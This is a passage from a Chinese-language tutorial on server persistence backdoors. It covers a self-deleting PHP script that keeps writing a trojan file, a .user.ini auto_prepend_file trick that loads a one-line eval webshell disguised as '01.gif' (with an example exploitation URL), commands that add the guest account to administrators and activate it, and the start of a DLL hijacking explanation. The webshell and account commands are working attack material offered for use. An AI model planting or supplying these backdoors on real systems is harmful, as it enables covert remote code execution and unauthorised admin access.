 `ignore_user_abort()` 函数设置与客户机断开是否会终止脚本的执行。这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行。

`set_time_limit()` 函数设置脚本最大执行时间。这里设置为0，即没有时间方面的限制。

`unlink(__FILE__)` 删除文件本身，以起到隐蔽自身的作用。

此脚本会每5秒不断的向服务器生成一个“inc_data_config.php”的一句话木马。

清除脚本只需要重启http服务。



## 0x6 .user.ini文件构成的PHP后门

指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

```bash
auto_prepend_file=01.gif
```

我们可以借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell

**01.gif** 

```php
<?php @eval($_GET['cmd']); ?>
```

直接访问下面链接即可利用：

```url
http://xxx.baidu.com/index.php?cmd=phpinfo();
```



## 0x7 使用已经禁用的guest账户进行登录

控制面板\所有控制面板项\用户帐户\管理帐户\启用来宾帐户

```bash
net user guest woaijiushi && net localgroup administrators guest /add

net user guest /active:yes   // 激活guest用户
```



## 0x8 DLL 劫持

在加载DLL过程中，系统都是先在程序目录加载DLL，如果没有找到就按照规定的顺序去搜索，但如果DLL的路径没有在system32中，攻击者就有可能伪造一个dll被程序加载。

系统在使用DLL搜索顺序取决于世否启用**安全的DLL搜索模式** 。

*PS：WindowsXP默认情况下禁用安全DLL搜索模式。之后默认启用安全DLL搜索模式*

若要使用此功能，需创建 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session
Manager\SafeDllSearchMode `注册表值，0为禁止，1为启用。

**SafeDLLSearchMode启用后，搜索顺序如下：**

```bash
1. 从其中加载应用程序的目录、
2. 系统目录。使用GetSystemDirectory函数获取此目录的路径。
3. 16位系统目录。没有获取此目录的路径的函数，但会搜索它。
4. Windows目录。 使用GetWindowsDirectory函数获取此目录。
5. 当前目录。
6. PATH环境变量中列出的目录。
```

